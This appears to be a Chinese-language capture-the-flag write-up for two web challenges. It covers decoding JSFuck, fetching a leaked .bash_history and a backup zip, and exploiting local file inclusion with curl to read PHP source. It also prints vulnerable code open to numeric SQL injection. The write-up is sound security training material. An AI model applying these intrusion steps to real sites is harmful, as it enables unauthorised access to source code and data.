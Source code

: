 需要注意下因为有`stripslashes`的存在，如果`get_magic_quotes_gpc()`为1，就需要再多给一个反斜杠；目前来说，`get_magic_quotes_gpc()`的值应该是0。

## [综合](http://teamxlc.sinaapp.com/web3/b0b0ad119f425408fc3d45253137d33d/index.php)

点击链接进入题目，发现页面上有一堆中括号和运算符。第一次看到时我整个人是懵的；谷歌说这叫 [jsfuck](https://zh.wikipedia.org/wiki/JSFuck)，是一种混淆JS代码的方式。把页面上面那一堆符号复制一下，打开chrome的控制台粘贴并回车，得到一个字符串`1bc29b36f623ba82aaf6724fd3b16718.php`。

看起来这是一个页面的名字。尝试打开看一下 `curl http://teamxlc.sinaapp.com/web3/b0b0ad119f425408fc3d45253137d33d/1bc29b36f623ba82aaf6724fd3b16718.php -v`。页面提示“TIP在我脑袋里”：仔细看curl的响应会发现多出来一个header名叫 `tip`，值为 `history of bash`。

貌似类 unix 系统在当前用户文件夹`~`下面有一个叫`.bash_history`的文件，这个文件由 bash 创建、被用来存储用户执行过的命令。这里既然有提示，就看一下会有啥 
```shell
curl http://teamxlc.sinaapp.com/web3/b0b0ad119f425408fc3d45253137d33d/.bash_history -v
```

结果显示有一个记录是 `zip -r flagbak.zip ./*`。试着访问一下 flagbak.zip，会发现答案就在这里：

```shell
wget http://teamxlc.sinaapp.com/web3/b0b0ad119f425408fc3d45253137d33d/flagbak.zip
unzip flagbak.zip
cat flag.txt
```

## [综合2](http://cms.nuptzj.cn/)

页面上有个链接`/about.php?file=`，应该是有本地文件包含漏洞。看一下`/about.php`的源代码。因为有一些实体编码的内容，所以要先解码。

```shell
# about.php
curl http://cms.nuptzj.cn/about.php?file=about.php | perl -MHTML::Entities -pe 'decode_entities($_);' > about.php
```

源代码的获得真的是事半功倍。about.php里面有一个隐藏目录 loginxlcteam ，但是不知道应该怎么包含它，感觉应该是有点用的样子。先看下其它php的源码：
```shell
# index.php
curl http://cms.nuptzj.cn/about.php?file=index.php | perl -MHTML::Entities -pe 'decode_entities($_);' > index.php
# so.php
curl http://cms.nuptzj.cn/about.php?file=so.php | perl -MHTML::Entities -pe 'decode_entities($_)' > cgctf/so.php
```

源码显示，so.php要带上一个http头才能访问`curl http://cms.nuptzj.cn/so.php?id=1 -H 'User-Agent: Xlcteam Browser'`。而且这里要连接数据库，可能就存在SQL注入漏洞：

```php
<?php
if($_SERVER['HTTP_USER_AGENT']!="Xlcteam Browser"){
echo '万恶滴黑阔，本功能只有用本公司开发的浏览器才可以用喔~';
    exit();
}
$id=$_POST['soid'];
include 'config.php';
include 'antiinject.php';
include 'antixss.php';
$id=antiinject($id);
$con = mysql_connect($db_address,$db_user,$db_pass) or die("不能连接到数据库！！".mysql_error());
mysql_select_db($db_name,$con);
# mysql_real_escape_string 虽然给$id加了反斜杠，但是下面的sql语句没有用到引号，因此在利用这个SQL注入漏洞的时候不需要闭合引号。
$id=mysql_real_escape_string($id);
$result=mysql_query("SELECT * FROM `message` WHERE display=1 AND id=$id");
$rs=mysql_fetch_array($result);
echo htmlspecialchars($rs['nice']).':<br />&nbsp;&nbsp;&nbsp;&nbsp;'.antixss($rs['say']).'<br />';
mysql_free_result($result);
mysql_free_result($file);
```